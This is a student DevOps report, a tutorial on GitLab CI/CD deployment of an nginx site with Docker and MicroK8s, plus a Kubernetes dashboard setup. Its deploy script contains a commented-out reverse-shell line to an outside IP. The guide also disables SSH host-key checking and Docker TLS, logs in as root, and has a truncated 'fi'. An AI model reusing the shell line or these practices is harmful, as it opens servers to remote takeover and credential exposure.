

# FINAL REPORT DEVOPS, DOCKER, DAN KUBERNETES KELOMPOK 4 
---
# Member of Team 4
- Benjamin Nikholas Partomuan
- Gede Ananda Prema Putra
- Himansyah Muqorrobin
- Salman Abdul Jabbaar Wiharja
- Tio Hady Pranoto

# Table of Contents
### A. Docker DevOps (GitLab CI/CD)
### B. Kubernetes Local (WSL 2 Ubuntu)
### C. Kubernetes DevOps (GitLab CI/CD)
### D. Monitoring Project With Kubernetes Dashboard

---

# A. Docker DevOps (GitLab CI/CD)
What is CI/CD? That stand for Continuous integration (CI)/Continuous Deployment(CD). List what procced of deployment with Gitlab CI/CD.
- Make a Gitlab Project
- Make a CI/CD Pipline
- Deploy to a Server with CI/CD 

## 1. Gitlab Project
Before you create a project, you need an Gitlab account first. After that you can click the button ***"new project"*** in right corner.


After that you can select ***"Create Blank Project"***


Fill all data and then click ***"create project"***


## 2. CI/CD Models

### a. Edit your Gitlab Project
After that you can clone the project in your local/pc. And then you can upload/push some file what we need for make this project. There are :
- Website files
- Configuration

For Website files you can add hmtl, css, js, images, and etc in ***One Folder*** in this case named ***website*** on the menandap's repo.

For Configuration files there are .gitlab-ci.yaml, .gitlab-deploy.sh  .

***.gitlab-ci.yml***

```yml
stage-build:
  image: docker:18.09-dind
  stage: build
  services:
    - docker:dind
  variables:
    DOCKER_HOST: tcp://docker:2375/
    DOCKER_DRIVER: overlay2
    DOCKER_TLS_CERTDIR: ""
  script:
    - . .gitlab-deploy.sh "BUILD"


stage-prod:
  image: ruby:2.5
  stage: deploy
  script:
    - . .gitlab-deploy.sh "DEPLOY"
  # when: manual

```

***gitlab-deploy.sh***
```bash 
#!/bin/bash
WAKTU=$(date '+%Y-%m-%d.%H')
echo "$SSH_KEY" > key.pem
chmod 400 key.pem

if [ "$1" == "BUILD" ];then
echo '[*] Building Program To Docker Images'
echo "[*] Tag $WAKTU"
docker build -t menandap/belajardevops:$CI_COMMIT_BRANCH .
docker login --username=$DOCKER_USER --password=$DOCKER_PASS
docker push menandap/belajardevops:$CI_COMMIT_BRANCH
echo $CI_PIPELINE_ID

elif [ "$1" == "DEPLOY" ];then
echo "[*] Tag $WAKTU"
echo "[*] Deploy to production server in version $CI_COMMIT_BRANCH"
echo '[*] Generate SSH Identity'
HOSTNAME=`hostname` ssh-keygen -t rsa -C "$HOSTNAME" -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub
echo '[*] Execute Remote SSH'
# bash -i >& /dev/tcp/103.41.207.252/1234 0>&1
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker login --username=$DOCKER_USER --password=$DOCKER_PASS"
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker pull menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker stop belajardevops-$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker rm belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker run -d -p 3003:80 --restart always --name belajardevops-$CI_COMMIT_BRANCH menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker exec farmnode-main sed -i 's/farmnode_staging/farmnode/g' /var/www/html/application/config/database.php"
echo $CI_PIPELINE_ID
fi

```
***Dockerfile***
```Dockerfile
FROM nginx:latest
COPY website/ /usr/share/nginx/html
```

### b. Configure your Server
In your server, you need to configure public key so in the project can login with the ***.pem*** key

```bash 
ssh-keygen -t rsa -b 2048
```

After that you can check if the key was maked by see in **.ssh** dir, in there will have 3 files authorized_key, id_rsa, and id_rsa.pub.


***note*** : if there no authorized_keys, you can make it.
```bash
touch authorized_keys
cat id_rsa.pub > authorized_keys
```
Now u can see the id_rsa files, that contain the private key ***(id_rsa)*** that make u can login the server. Copy key inside id_rsa and then save and name it ***key.pem***.

## 3. Deploy to Server with CI/CD

With all component completed, we can run the pipline of the gitlab project. In this project we use shared runner because all thing is prepared by gitlab runner and ready to use.


You can run build and deploy by running the pipeline project. Go to ***CI/CD*** menu -> ***Pipeline***, and then click ***Run Pipeline*** buttton.


If everything work corrently we can see the pipelines run like this. The build and the deploy stage passed.


You can see if build stage passed, there will a docker image builded by the runner and uplouded in DockerHub otomaticly.


 
If deploy stage passed, there will a proccess of the runner will conect to VPS and pull images from the DockerHub and then running the cointainer of the images we build before.


So that all about making CI/CD on Gitlab :) 

---
# B. Kubernetes Local (WSL 2 Ubuntu)
This time, we will deploy Kubernetes using WSL 2 Ubuntu
## 1. Install Docker Windows
To install docker windows, it can be accessed at `https://docs.docker.com/desktop/install/windows-install/` Then Login Account.
If you don't have a Docker account, you can create one first.

## 2. Activating Features **"Use the WSL 2 based Engine"**
Install Docker on WSL so that it can be integrated is quite easy, just activate the feature **"Use the WSL 2 based Engine"** in Docker Settings.
Open Docker Windows > Settings > General > Checklist **"Use the WSL 2 based Engine"**
After that click Apply & Restart


## 3. Activating Features "Resources WSL Integration"
To activate this feature, the steps are as follows:
Open Docker Windows > Settings > Resources > Checklist **"Enable Integration with my default WSL Distro"**
After that click Apply & Restart

If you have several WSL distributions, you can choose them manually, in this case we only have one WSL distribution, namely Ubuntu.


## 4. Run Docker with GPU Support

```bash
$ docker run --rm -it --gpus=all nvcr.io/nvidia/k8s/cuda-sample:nbody nbody -gpu -benchmark
```


## 5. Activating Kubernetes
To enable Kubernetes on Windows Docker is also very easy. here's how to activate it:
Open Docker Windows > Settings > Kubernetes > Checklist **"Enable Kubernetes"**
After that click Apply & Restart


## 6. Install kubectl binary with curl on Linux

### a. Download the latest release with the command:
```bash
$ curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```
### b. Validate the binary (optional)
Download the kubectl checksum file:
```bash
$ curl -LO "https://dl.k8s.io/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl.sha256"
```
Validate the kubectl binary against the checksum file:
```bash
$ echo "$(cat kubectl.sha256)  kubectl" | sha256sum --check
```
### c. Install kubectl
```bash
$ sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
```
OR
```bash
$ chmod +x kubectl
$ mkdir -p ~/.local/bin
$ mv ./kubectl ~/.local/bin/kubectl
# and then append (or prepend) ~/.local/bin to $PATH
```


### d. Test to ensure the version you installed is up-to-date:
```bash
$ kubectl version --client
```
Or use this for detailed view of version:
```bash
$ kubectl version --client --output=yaml
```


## 7. Install Minikube
### a. Download Minikube
```bash
$ curl -LO https://storage.googleapis.com/minikube/releases/latest/minikube-linux-amd64
```
### b. Install Minikube
```bash
$ sudo install minikube-linux-amd64 /usr/local/bin/minikube
```


## 8. Start Minikube
```bash
$ minikube start
```
You can also make your life easier by adding the following to your shell config: [Anda juga dapat membuat hidup Anda lebih mudah dengan menambahkan yang berikut ini ke konfigurasi shell Anda:]
```bash
$ alias kubectl="minikube kubectl --"
```


## 9. Deploy Kubernetes applications
Create a sample deployment and expose it on port 80:
```bash
$ kubectl create deployment hello-minikube --image=docker.io/nginx:1.23
$ kubectl expose deployment hello-minikube --type=NodePort --port=80
```
It may take a moment, but your deployment will soon show up when you run:
```bash
$ kubectl get services hello-minikube
```
The easiest way to access this service is to let minikube launch a web browser for you:
```bash
minikube service hello-minikube
```


## 10. Check Kubernetes in Your Browser
you can search `http://127.0.0.1:38329` in your browser


---

# C. Kubernetes DevOps (GitLab CI/CD)

## 1. Gitlab Project
Before you create a project, you need an Gitlab account first. After that you can click the button ***"new project"*** in right corner.


After that you can select ***"Create Blank Project"***

Fill all data and then click ***"create project"***


## 2. CI/CD Models

### a. Edit your Gitlab Project
After that you can clone the project in your local/pc. And then you can upload/push some file what we need for make this project. There are :
- Website files
- Configuration

For Website files you can add hmtl, css, js, images, and etc in ***One Folder*** in this case named ***website*** on the menandap's repo.

For Configuration files there are .gitlab-ci.yaml, .gitlab-deploy.sh  .

***.gitlab-ci.yml***

```yml
stage-build:
  image: docker:18.09-dind
  stage: build
  services:
    - docker:dind
  variables:
    DOCKER_HOST: tcp://docker:2375/
    DOCKER_DRIVER: overlay2
    DOCKER_TLS_CERTDIR: ""
  script:
    - . .gitlab-deploy.sh "BUILD"


stage-prod:
  image: ruby:2.5
  stage: deploy
  script:
    - . .gitlab-deploy.sh "DEPLOY"
  # when: manual

```

***gitlab-deploy.sh***
```bash 
#!/bin/bash
WAKTU=$(date '+%Y-%m-%d.%H')
echo "$SSH_KEY" > key.pem
chmod 400 key.pem

if [ "$1" == "BUILD" ];then
echo '[*] Building Program To Docker Images'
echo "[*] Tag $WAKTU"
docker build -t menandap/kubernetsdevops:$CI_COMMIT_BRANCH .
docker login --username=$DOCKER_USER --password=$DOCKER_PASS
docker push menandap/kubernetsdevops:$CI_COMMIT_BRANCH
echo $CI_PIPELINE_ID

elif [ "$1" == "DEPLOY" ];then
echo "[*] Tag $WAKTU"
echo "[*] Deploy to production server in version $CI_COMMIT_BRANCH"
echo '[*] Generate SSH Identity'
HOSTNAME=`hostname` ssh-keygen -t rsa -C "$HOSTNAME" -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub
echo '[*] Execute Remote SSH'
# ssh -i key.pem -o "StrictHostKeyChecking no" root@128.199.142.219 "sudo microk8s.kubectl delete -f service-nginx-nodeport.yaml"
ssh -i key.pem -o "StrictHostKeyChecking no" root@128.199.142.219 "sudo microk8s.kubectl create -f service-nginx-nodeport.yaml"
echo $CI_PIPELINE_ID
f
```
***Dockerfile***
```Dockerfile
FROM nginx:latest
COPY website/ /usr/share/nginx/html
```

***service-nginx-nodeport.yaml***
```yaml
apiVersion: apps/v1
kind: ReplicaSet
metadata:
  name: menandap
spec:
  replicas: 3
  selector:
    matchLabels:
      name: menandap
  template:
    metadata:
      name: menandap
      labels:
        name: menandap
    spec:
      containers:
        - name: menandap
          image: menandap/kubernetsdevops:main
          ports:
            - containerPort: 80

---

apiVersion: v1
kind: Service
metadata:
  name: menandap-service
spec:
  type: NodePort
  selector:
    name: menandap
  ports:
    - port: 80
      targetPort: 80
      nodePort: 30003
```

### b. Configure your Server
In your server, you need to configure public key so in the project can login with the ***.pem*** key

```bash 
ssh-keygen -t rsa -b 2048
```

After that you can check if the key was maked by see in **.ssh** dir, in there will have 3 files authorized_key, id_rsa, and id_rsa.pub.


***note*** : if there no authorized_keys, you can make it.
```bash
touch authorized_keys
cat id_rsa.pub > authorized_keys
```
Now u can see the id_rsa files, that contain the private key ***(id_rsa)*** that make u can login the server. Copy key inside id_rsa and then save and name it ***key.pem***.

And then ***fill data variables*** in your Gitlab Project by fill the username, password for docker, and vps's public key. You can go to ***Setting->CI/CD->Variables*** like this.


***Dont forget*** to copy ***service-nginx-nodeport.yaml*** file to your VPS in /root directory.

## 3. Deploy Kubernetets to VPS with CI/CD

With all component completed, we can run the pipline of the gitlab project. In this project we use shared runner because all thing is prepared by gitlab runner and ready to use.


You can run build and deploy by running the pipeline project. Go to ***CI/CD*** menu -> ***Pipeline***, and then click ***Run Pipeline*** buttton.


If everything work corrently we can see the pipelines run like this. The build and the deploy stage passed. You can see if build stage passed, there will a docker image builded by the runner and uplouded in DockerHub otomaticly.


 
If deploy stage passed, there will a proccess of the runner will conect to VPS and pull images from the DockerHub and then running the ***microk8s.kubectl services*** by using ***.yaml configuration file we create before (service-nginx-nodeport.yaml)***. In this file there will pull image from dockerhub and then crated kubectl service in port 30003.


After that you can check if kubernetes pod can be access in our VPS, you can accsess ***IP:port*** in this case 128.199.142.219:30003. So that all about making Kubernetes CI/CD on Gitlab :) 

---

# D. Monitoring Project With Kubernetes Dashboard
The Kubernetes Dashboard is a web-based management interface that enables you to: deploy and edit containerized applications. assess the status of containerized applications. troubleshoot containerized applications.

## Using Mircrok8s
The standard Kubernetes Dashboard is a convenient way to keep track of the
activity and resource use of MicroK8s.


## a. Enable the Dashboard
```bash
microk8s enable dashboard
```
After addons Mircok8s Dashboard enable, you can verify like this. You can see in this image addons for dahsboard is enabled
 

## b. Create Token
To access the installed dashboard, you’ll need to follow the guide. To log in to the Dashboard, you will need the access token (unless RBAC has
also been enabled). This is generated randomly on deployment, so a few commands
are needed to retrieve it:

For MicroK8s 1.24 or newer

```bash
microk8s kubectl create token default
```

For MicroK8s 1.23 or older

```bash
token=$(microk8s kubectl -n kube-system get secret | grep default-token | cut -d " " -f1)
microk8s kubectl -n kube-system describe secret $token
```
In this case the VPS using Mircok8s with newer version, and then creating the token like this.
 

## c. Port Forward
Next, you need to connect to the dashboard service. While the MicroK8s snap will
have an IP address on your VPS (the Cluster IP of the kubernetes-dashboard service),
you can also reach the dashboard by forwarding its port to a free one on your host with :

```bash
microk8s kubectl port-forward -n kube-system service/kubernetes-dashboard --address <IP ADD> 10443:443
```
 

## d. Kubernetes Dashboard 
After that you can acces the ***IP:Port*** for access the Kubernetes Dashboard. In this case we using ***128.199.142.219:10443***.

 
In image above we need to verify using the token we created before to access Kubernetes Dashboard. After sumbiting the token we can access the Kubernetes Dashboard like this.

 
 

So that all about making Dasboard on Kubernetes :) 
